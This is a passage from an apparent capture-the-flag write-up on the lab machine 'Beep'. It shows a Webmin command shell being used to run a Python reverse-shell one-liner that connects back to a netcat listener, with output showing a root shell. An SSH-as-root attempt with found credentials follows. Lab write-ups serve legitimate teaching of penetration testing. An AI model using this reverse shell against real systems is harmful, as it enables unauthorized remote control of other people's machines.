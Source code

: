 Also connected, looking around the sidebar, I found something called "Command Shell", which let us run command.

![Webmin cmd](/assets/imgs/beep/webmin_cmd.PNG)

I want a reverse shell, first launch nc :

```
nc -lvp 1234
```

Then I used a python reverse shell found here [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

And there you have a shell as "root" !

```
nc -lvp 1234
listening on [any] 1234 ...
10.10.10.7: inverse host lookup failed: Unknown host
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.7] 44157
sh: no job control in this shell
sh-3.2# whoami
root
```

## Other method

Nmap tells us that there is port 22 open (SSH), with the credentials that I found before, there may be a way to connect. When I try to connect as root there is an error :

```
ssh root@10.10.10.7
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```

OpenSSH implements all of the cryptographic algorithms needed for compatibility with standards-compliant SSH implementations, but since some of the older algorithms have been found to be weak, not all of them are enabled by default ([https://www.openssh.com/legacy.html](https://www.openssh.com/legacy.html)).
